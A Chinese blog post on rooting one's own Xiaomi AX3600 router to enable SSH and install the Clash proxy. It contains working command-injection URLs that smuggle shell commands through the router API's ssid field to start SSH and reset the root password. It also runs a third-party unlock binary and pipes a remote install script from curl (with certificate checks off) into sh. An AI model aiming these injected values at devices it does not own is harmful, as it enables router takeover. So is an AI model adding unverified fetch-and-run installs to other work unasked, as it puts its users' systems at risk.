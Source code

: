 ```yaml
---
title: AX3600开启ssh并使用Clash实现透明代理
date: 2020-09-13 12:29:28
tags:
  - OpenWRT
  - GFW
  - Shadowsocks
  - ShadowsocksR
  - V2Ray
  - Trojan
  - Proxy
  - Clash
  - Xiaomi
  - Router
  - ROM
categories: 笔记
---
```


整了台小米路由器 AX3600 玩 ~~我没有 root 权限会死所以~~root 了下，发现还能用 clash

<!-- more -->

## 获取 root 权限并打开 ssh

### 使用官方固件漏洞开启 ssh

先需要将固件版本降级到`1.0.17`，固件可以在[这里](https://drive.google.com/drive/folders/1tIjKMNSSrkYm8vBGmk-gPTjTrYuREGLt)下载。

连接上 wifi 并打开[路由器管理页面](http://192.168.31.1/)

登录后浏览器地址栏应该是这样的：

```url
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/web/home#router
```

复制记下这个`<STOK>`

把下面 URL 中的`<STOK>`替换成刚才的，并访问

```url
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B
```

会显示`{"code":0}`

再来一个 URL，注意替换`STOK`

```url
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B
```

到这里 ssh 就成功打开了
可以使用用户名 root+密码 admin 来 ssh 登录路由器

```bash
ssh root@192.168.31.1
```

输入密码回车后可以看到

```text
BusyBox v1.25.1 (YYYY-MM-DD HH:mm:ss UTC) built-in shell (ash)

 -----------------------------------------------------
       Welcome to XiaoQiang!
 -----------------------------------------------------
  $$$$$$\  $$$$$$$\  $$$$$$$$\      $$\      $$\        $$$$$$\  $$\   $$\
 $$  __$$\ $$  __$$\ $$  _____|     $$ |     $$ |      $$  __$$\ $$ | $$  |
 $$ /  $$ |$$ |  $$ |$$ |           $$ |     $$ |      $$ /  $$ |$$ |$$  /
 $$$$$$$$ |$$$$$$$  |$$$$$\         $$ |     $$ |      $$ |  $$ |$$$$$  /
 $$  __$$ |$$  __$$< $$  __|        $$ |     $$ |      $$ |  $$ |$$  $$<
 $$ |  $$ |$$ |  $$ |$$ |           $$ |     $$ |      $$ |  $$ |$$ |\$$\
 $$ |  $$ |$$ |  $$ |$$$$$$$$\       $$$$$$$$$  |       $$$$$$  |$$ | \$$\
 \__|  \__|\__|  \__|\________|      \_________/        \______/ \__|  \__|


root@XiaoQiang:~#
```

这个 RUOK 就很灵性

### 更改密码及权限维持

重新设置 root 密码

```bash
passwd root
#在路由器shell执行
```

这样并不能保证升级后 ssh 仍能使用，如果留在这个版本漏洞还是有一定风险。

备份

```bash
nanddump -f /tmp/bdata_mtd9.img /dev/mtd9
#在路由器shell执行
```

用你喜欢的方式下载`bdata_mtd9.img`，我使用 scp 命令

```bash
scp root@192.168.31.1:/tmp/bdata_mtd9.img ~/
```

下载[`fuckax3600`](fuckax3600)(作者：[paldier](https://www.right.com.cn/forum/space-uid-194813.html)) 并传到路由器的`/tmp`目录

```bash
scp ~/Downloads/fuckax3600 root@192.168.31.1:/tmp/
```

```bash
chmod +x /tmp/fuckax3600
/tmp/fuckax3600 unlock
#在路由器shell执行
```

等待路由器重启后

```bash
/tmp/fuckax3600 hack
#在路由器shell执行
```

会自动设置永久 ssh、telnet、uart 权限，同时会计算出默认的 root 密码，注意记录密码，恢复出厂后 telnet 和 ssh 需要用

```bash
/tmp/fuckax3600 lock
#在路由器shell执行
```

然后就可以升级新版本了，如果升级完新版本 ssh 不能用

使用 telnet 登录

```bash
telnet 192.168.31.1
```

```bash
sed -i 's/channel=.*/channel="debug"/g' /etc/init.d/dropbear
/etc/init.d/dropbear start
#在路由器shell执行
```

## 安装 clash 作为透明代理

这里使用一键脚本[`ShellClash`](https://github.com/juewuy/ShellClash)

```bash
sh -c "$(curl -kfsSl https://cdn.jsdelivr.net/gh/juewuy/ShellClash@latest/install.sh)" && source /etc/profile &> /dev/null
clash
#在路由器shell执行
```

使用`clash`命令就能打开管理脚本

## 参考

- [[AX3600] 小米 ax3600 获取 root 权限【简单快速】【修复丢 ssid】](https://www.right.com.cn/forum/forum.php?mod=viewthread&tid=4046020)

- [juewuy/ShellClash](https://github.com/juewuy/ShellClash)

- [Clash for Miwifi 安装及使用教程](https://juewuy.github.io/post/clash-for-miwifi-an-zhuang-ji-shi-yong-jiao-cheng/)
